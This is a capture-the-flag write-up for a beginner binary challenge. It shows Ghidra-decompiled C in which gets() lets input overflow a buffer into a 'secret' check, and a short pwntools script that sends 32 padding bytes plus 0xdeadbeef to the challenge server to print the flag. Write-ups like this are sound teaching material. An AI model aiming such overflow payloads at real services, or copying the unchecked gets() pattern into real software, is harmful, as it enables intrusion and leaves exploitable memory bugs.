 ![problem statement](problem-statement.png)

Opened the binary file in ghidra to find the following functions (some types and variables are renamed for better understanding):
```c

void anyaforger(void)
{
  printf("BDSEC{find_the_flag_in_the_server}");
  exit(0);
}

void vuln(void)
{
  char buff [32];
  uint secret;
  
  secret = 0x12345678;
  printf("Enter the secret word: ");
  fflush(_stdout);
  gets(buff);
  if (secret == 0xdeadbeef) {
    anyaforger();
    fflush(_stdout);
    return;
  }
  puts("Sorry, that\'s not the secret word.");
  exit(1);
}

int main(void)
{
  banner(&stack0x00000004);
  puts(
      "she is a telepath whose abilities were created in an experiment conducted by an unknown organ ization "
      );
  fflush(_stdout);
  vuln();
  return 0;
}
```

As we can see, all we have to do is somehow get `secret` to equal `0xdeadbeef` and we will get the flag. The problem is that `secret` is a local variable and we can't access it directly. However, if we look at the stack frame of the `vuln` function, we can see that `secret` is located right after `buff`:

![stack frame](vuln-stack-frame.png)

Now if we look at `vuln`, we can see that it calls `gets` on `buff` without any bounds checking. This means that we can overflow `buff` and overwrite `secret` with `0xdeadbeef`. To do this, we can use the following python script:
```python
from pwn import *

# io = process('./beef')
io = remote('139.144.184.150', 31337)
io.recvuntil(b'Enter the secret word: ')
io.sendline(b'A'*32 + p64(0xdeadbeef))
print(io.recvall().decode())
```
